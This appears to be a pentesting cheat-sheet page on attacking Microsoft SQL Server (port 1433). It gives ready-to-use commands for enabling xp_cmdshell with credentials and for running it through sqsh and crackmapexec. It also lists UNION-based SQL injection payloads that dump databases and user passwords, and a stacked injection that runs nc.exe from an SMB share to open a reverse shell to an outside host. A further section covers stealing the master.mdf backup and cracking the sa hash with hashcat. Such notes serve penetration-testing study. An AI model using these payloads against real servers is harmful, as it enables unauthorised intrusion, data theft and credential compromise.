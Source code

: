 ```yaml
---
title: PORT 1433/tcp - Microsoft SQL Server
category: Services
order: 1
---
```


# Introduction

Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network.

# RCE With Credentials

## sqsh

```
sqsh -S <IP-ADDR> -U <user> -P <pass> -D <database>
```

In MSSQL there is a procedure called **xp\_cmdshell** that receives a command from Windows, executes it and return the result as rows of text. Although the most common case is that the user of the application does not have permissions to execute the **xp\_cmdshell** procedure because is disabled by default, it has been seen on several occasions that, due to a misconfiguration, it does have permissions to enable it.

We need to configure `xp_cmdshell`.

```
1> EXEC SP_CONFIGURE N'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE
2> go
```

Once configured we can execute commands with `sqsh` or `crackmapexec`.

```
1> xp_cmdshell 'dir c:\';
2> go
```

## crackmapexec

We can execute code in a easier way with crackmapexec.

```
crackmapexec mssql -u sa -p password --local-auth -x 'whoami'
```

# SQL Injection in MSSQL

To understand the vulnerability visit the following page link.

* [SQL Injection](/hackingnotes/web/sqli/)

Some SQLi payloads are the following (supposing that the original query return two values):

```
' union all select 1,2 -- -

# Current User
' union all select CURRENT_USER, 2 -- -

# Databases
' union all select name, 2 from master..sysdatabases -- -

# Tables from database "music"
' union all select name, 2 from music..sysobjects  WHERE xtype = 'U' -- -

# Columns from "users" table
' union all select name, 2 from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users') -- -

# Dump a table
' union all select user, password from users -- -
```

We can also append commands on the query and execute commands with the procedure **xp\_cmdshell.**

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; -- -
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
'; EXEC xp_cmdshell '\\10.10.10.10\share\nc.exe -e cmd.exe 10.10.10.10 443' -- - 
```

# LFI or File Download to RCE

If we are able to download any file of the system and has the MSSQL port open, we can retrieved the **sa** hash.

We need to download a copy of the master.mdf file located on:

```
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/DATA/master.mdf
or
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLSERVER/MSSQL/DATA/master.mdf
```

Since the file is running we can not read it, so we need to find a backup. Some backups are available here:

```
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/Backup/master.mdf
```

Once downloaded we can dump the hashes with [XPN script.](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

* [https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

> **Note:** The code fails while trying to load OrcaMDF dlls, see the following pull request to fix it.
>
>[https://github.com/xpn/Powershell-PostExploitation/pull/2](https://github.com/xpn/Powershell-PostExploitation/pull/2)

_File changed:_

![Tothi pull request.](/hackingnotes/images/file_changed.png)

We just need to import the module and extract the hashes.

```
Import-Module Get-MDFHashes.psq
Get-MDFHashes -mdf master.mdf
```

![Dumping mdf hashes](/hackingnotes/images/mdf_hashes.png)

We can crack it with Hashcat (mode 1731).

```
hashcat -a 0 -m 1731 hash.txt /usr/share/wordlists/rockyou.txt
```

Once obtained the credentials we can execute code with `crackmapexec` or `sqsh`.

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)

# **References**

* [https://www.tarlogic.com/blog/red-team-tales-0x01/#:\~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.](https://www.tarlogic.com/blog/red-team-tales-0x01/#:\~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.)
* [https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/](https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
